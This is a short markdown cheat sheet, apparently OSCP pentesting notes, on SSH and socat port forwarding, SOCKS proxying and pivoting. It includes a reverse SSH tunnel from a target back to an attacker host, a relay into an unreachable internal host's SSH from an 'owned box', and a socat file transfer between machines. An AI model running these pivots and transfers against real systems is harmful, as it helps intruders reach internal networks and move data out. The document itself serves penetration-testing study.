

Port forwarding from $TARGET_IP to localhost with SSH
---
```bash
ssh -N -L $LOCAL_PORT:localhost:$PORT $USER@$TARGET_IP
```

```bash
sshpass -p $PASSWORD ssh $USER@$TARGET_IP -L $PORT:127.0.0.1:$PORT
```

or run in background with -f option

```bash
ssh -N -f -L $PORT:localhost:$PORT $USER@$TARGET_IP
```

Forward port from remote machine to local machine:

```bash
service ssh start
```

then on remote machine

```bash
ssh -N -R $REMOTE_PORT:localhost:$PORT $USER@$ATTACKER_IP
```

Proxy on localhost:9090 using SSH and credentials:
(WARNING: Proxy is very unstable if it cannot resolve a host, e.g. http page includes)
```bash
#socks5, localhost:9090 in FoxyProxy
ssh -D 9090 $USER@$TARGET_IP
```

Forward local port to target IP with SOCAT
---
```bash
socat TCP-LISTEN:139,reuseaddr,fork TCP:$TARGET_IP:$PORT &
```

OSCP socat
---
#socat #pivot #port-forwarding

forward port 22 on internal/unreachable to attacker box to owned box port 2222

```bash
socat -ddd TCP-LISTEN:2222,fork TCP:$INTERNAL_IP:22
```

![[images/socat-network-pivot.png]]



Using SOCAT to send file:
---
On receiving machine

```bash
socat -u TCP-LISTEN:9876,reuseaddr OPEN:$FILE_OUT,creat
```

and on sending machine

```bash
socat -u FILE:$FILE_OUT TCP:$RECEIVER_IP:9876
```